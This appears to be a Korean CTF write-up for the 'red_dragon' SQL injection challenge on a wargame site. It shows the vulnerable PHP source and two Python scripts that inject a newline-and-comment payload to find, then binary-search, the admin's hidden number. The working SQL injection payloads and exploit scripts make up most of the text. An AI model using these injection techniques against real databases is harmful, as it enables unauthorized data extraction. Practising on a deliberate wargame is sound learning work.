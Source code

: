 ## Red_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```
**is_numeric:** 값이 숫자 또는 숫자 문자열인지 확인하는 함수
### exploit
admin에 해당하는 no 값을 알아내야한다.
```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for ran in range(100):
  param = {'id':"'||no>%23", 'no':f"%0a{str(10 ** ran)}"}
  print(f'?id={param['id']}&no={param["no"]}')
  res = requests.get(url=url+f'?id={param['id']}&no={param["no"]}', cookies=cookie)
  if 'Hello admin' not in res.text:
    print(f'10^{ran-1} < no < 10^{ran}')
    break
```
이 코드를 통해 no의 범위를 알아낼 수 있었다.<br>
다음으로 이 범위에 대한 이분 탐색을 이용한 코드로 정확한 값을 알 수 있다. 
```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php"

cookie = {'PHPSESSID' : 'cookie 값'}

left = 10 ** 8
right = 10 ** 9
while left<=right:
  mid = (left+right)//2

  param= {'id':"'||no>%23", 'no':f'%0a{mid}'}
  res = requests.get(url=url+ f'?id={param['id']}&no={param["no"]}', cookies=cookie)
  if "Hello admin" in res.text:
    left = mid + 1
  else:
    right = mid - 1
  print(left,right)
print(left,right)
```
